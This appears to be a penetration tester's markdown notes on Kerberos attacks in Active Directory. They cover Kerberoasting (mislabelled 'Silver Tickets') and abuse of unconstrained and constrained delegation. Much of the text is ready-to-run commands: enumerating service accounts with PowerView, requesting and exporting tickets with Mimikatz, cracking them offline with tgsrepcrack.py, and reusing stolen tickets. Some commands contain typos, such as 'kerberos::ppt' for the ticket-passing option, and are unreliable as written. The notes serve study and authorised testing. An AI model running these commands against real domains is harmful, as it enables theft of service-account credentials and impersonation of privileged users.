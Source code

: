 > https://docs.microsoft.com/en-us/windows/desktop/secauthn/authentication-portal

> https://docs.microsoft.com/en-us/windows/desktop/secauthn/microsoft-kerberos

![Kerberos](https://lh5.googleusercontent.com/UeGIGlYK5NvC4FIRPCzOgdeL_UeDjrvszzw2ZbJgitgE_Mdbi1Z6HZSG9VHfBJSDwP2W4ifN9JkpSa9jx-BA=w1360-h611-rw)

> https://drive.google.com/open?id=1eaQki6QuqfbHqMfkaKH66z2OAnI0lV0H

# Silver Tickets

* Password hashes of service accounts could be used to create
* Kerberos session ticket (TGS) has a sever portion which is encrypted with the password hash of the service account.
* Can request a ticket and do offline brute forcing.

![Kerberos Silver Ticket](https://lh5.googleusercontent.com/OKN30PLvn-kXiOXCz4fHfd7mHn_SUCdTnJBRB_NRYpWj9B57kc8cbyn1Ga-pLlWQ38jNvRs7Cz-gpQr0iFpg=w1360-h611-rw)
> https://drive.google.com/open?id=1iSXKVgkO_U61MCf0ItaZgyMt-406pWdD

* KDC does not handle authorization
* Can request TGS for any service
* TGS is encrypted using target-service NTLM hash
* .:. it is possible to brute-force the TGS to get target-service account credentials

## Find Service Accounts

GetUserSPNs
> https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py

PowerView (SPN = Service Principal Name)
```
Get-Netuser -SPN
```

ActiveDirectory Module
```
Install-ActiveDirectoryModule -DllPath C:\AdModule\Microsoft.ActiveDirectory.Management.dll ADModulePath C:\AdModule\ActiveDirectory.psd1

Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
## Request SPN Ticket

```
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<server-name>"
```

PowerView
```
Request-SPNTicket
```

## Save Tieket

List all tickets in cache (check if granted)
```
klist
```

Mimikatz
```
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
## Bruteforce

```
python.exe .\tgsrepcrack.py .\password.txt '<ticket>'
```

or use John


# Kerberos Delegation

* Allows reusing the end-user credentials to access resources hosted on a different server.
* Used when `Kerberos Double Hop` is required.
* Impersonating the incoming/authentication user is necessary to work.
* Types:
  * Unconstrained (only Windows Server 2003 <) - Allow authentication to any service in the domain
  * Constrained

## Unconstrained Kerberos Delegation

![Kerberos Delegation](https://lh5.googleusercontent.com/MgazYuWpQRvg25S48nMh5iPbeX76N-GF078pRWy7jBo4MqO3k4rPaBHdZXDL-GLEqv2GDfrsMlp6gNahYYLU=w1360-h611-rw)
> https://drive.google.com/open?id=1VZvQcin4RN7PkByplk-LhI1P3mrCoJXY

1. User provide credentials to DC
2. DC returns TGT
3. User request TGS for web service
4. DC provides TGS (TGS contains user's TGT)
5. User sends TGT and TGS to web Server
6. Web server service account use user's TGT to request a TGS got database server from DC
 * Web server service account can decrypt TGS and extract the user's TGT
 * This is because TGS is encryoted with web server service account's NTLM hash
7. Web server service account connects to database impersonating the user

### Identifying Nodes with Unconstrained Delegation Enabled

```
Get-NetComputer -UnConstrained
```

```
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

### Attack Pattern

* Compromise the server that use unconstrained delegation
* Wait for a high privileged connect
* Once connected, export all the tickets including TGT for that User

```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

Reuse tickets with
```
Invoke-Mimikatz -Command '"kerberos::ppt C:\tickets\admin.kirbi"'
```

## Constrained Kerberos Delegation

* Only provide access to specified services on a specifiv computer
* Service account must have TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION - T2A4D UserAccountControl attribute
* Service account can asccess all services specified in msDS-AllowedToDelegateTo attribute

### Identifying Users with Unconstrained Delegation Enabled

```
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

```
Install-ActiveDirectoryModule -DllPath C:\AdModule\Microsoft.ActiveDirectory.Management.dll ADModulePath C:\AdModule\ActiveDirectory.psd1

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
### Attack Patterns

* Protocol Transition used in SSO
* Delegation occurs not only for the specific service but for any service running under the same account. No validation for the SPN specified.

> https://labs.mwrinfosecurity.com/blog/trust-years-to-earn-seconds-to-break/


# Reference:
- https://blog.redforce.io/oh-my-kerberos-do-not-get-kerberoasted/
